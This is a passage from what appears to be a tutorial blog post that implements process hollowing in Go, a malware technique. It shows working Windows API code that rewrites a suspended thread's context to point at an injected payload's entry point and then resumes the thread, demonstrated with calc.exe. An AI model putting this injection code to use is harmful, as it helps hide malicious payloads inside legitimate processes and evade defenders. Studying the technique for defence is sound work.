 ```go
}
```

With the relocation done, we now have successfully copied our image into the remote process, which we can now restart.

### Restarting the process

Restarting a thread would usually be as simple as calling `ResumeThread`, however, in our case, we must do one more thing.
Execution of a PE file usually starts from an address defined in `AddressOfEntryPoint` in the optional headers. When a thread is suspended, the address is stored in the thread context, to be restored into the `Rcx` register (`Eax` for 32-bits machines).
Therefore, the current process one and only thread has, at the moment, a context that would load the value of the old PEs `AddressOfEntryPoint` starting execution from a random point. We need to change that by updating the thread context with the `AddressOfEntryPoint` of our payload. We can do that by using `GetThreadContext` and `SetThreadContext`.

```go
var context CONTEXT
context.ContextFlags = (0x00100000 | 0x00000002) // CONTEXT_INTEGER
r1, _, _ = getThreadContext.Call(
    uintptr(processInfo.Thread),
    uintptr(unsafe.Pointer(&context)),
)
if r1 == 0 {
    log.Fatal("[-] Failed to retrieve target process thread context")
}
fmt.Println("[+] Retrieved thread context")

newEntryPoint := peb.ImageBaseAddress + uintptr(ntHeaders.OptionalHeader.AddressOfEntryPoint)
context.Rcx = uint64(newEntryPoint)
r1, _, _ = setThreadContext.Call(
    uintptr(processInfo.Thread),
    uintptr(unsafe.Pointer(&context)),
)
if r1 == 0 {
    log.Fatal("[-] Failed to set remote process thread context")
}
```

And now we are finally ready to restart our thread, which will now execute our payload.

```go
res, err := windows.ResumeThread(processInfo.Thread)
if res != 1 || err != nil {
    log.Fatal("[-] Failed to resume remote process thread")
}
fmt.Println("[+] Successfully resumed remote thread")
```

While this actually starts `calc.exe`, process explorer does show Calculator running as a process, which of course defeats the purpose of process hollowing. However I believe this is not due to a mistake in my implementation, so I will do some tests later on to check how other executables behave.
